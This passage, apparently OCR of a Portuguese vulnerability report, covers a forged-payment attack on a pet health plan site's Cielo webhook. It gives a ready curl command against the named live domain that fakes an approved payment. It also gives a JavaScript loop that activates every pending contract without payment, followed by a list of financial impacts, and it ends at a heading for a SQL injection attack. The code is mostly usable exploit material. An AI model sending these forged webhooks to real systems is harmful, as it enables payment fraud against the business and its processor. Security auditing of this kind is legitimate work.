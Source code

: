 2. **Exploração - Aprovar Pagamento Falso:**
   ```bash
   # Criar payload de pagamento aprovado
   curl -X POST https://unipetplan.com.br/api/webhooks/cielo \
     -H "Content-Type: application/json" \
     -H "X-Correlation-ID: fake-correlation-123" \
     -d '{
       "PaymentId": "00000000-0000-0000-0000-000000000001",
       "ChangeType": 1,
       "ClientOrderId": "CONTRACT-00001",
       "RecurrentPaymentId": null
     }'
   ```

3. **Impacto:**
   ```typescript
   // O sistema processaria e aprovaria:
   - Contrato ativado sem pagamento real
   - Pet com plano ativo (acesso a serviços)
   - Comprovante de pagamento gerado
   - Status alterado para "paid" no banco
   ```

4. **Escalação Massiva:**
   ```javascript
   // Script para ativar TODOS os contratos sem pagar
   const contracts = await fetch('/api/contracts/pending').then(r => r.json());
   
   for (const contract of contracts) {
     await fetch('/api/webhooks/cielo', {
       method: 'POST',
       headers: { 'Content-Type': 'application/json' },
       body: JSON.stringify({
         PaymentId: crypto.randomUUID(),
         ChangeType: 1,  // Aprovado
         ClientOrderId: contract.id
       })
     });
   }
   
   // Resultado: Todos os contratos ativos SEM PAGAMENTO
   ```

**Impacto Financeiro:**
- 💰 Perda total da receita mensal/anual
- 💰 Fraude em larga escala (centenas de contratos)
- 💰 Responsabilização criminal por fraude
- 💰 Processo judicial da Cielo
- 💰 Bloqueio da conta de pagamentos

---

### 🗄️ ATAQUE 3: SQL Injection via TypeScript Undefined
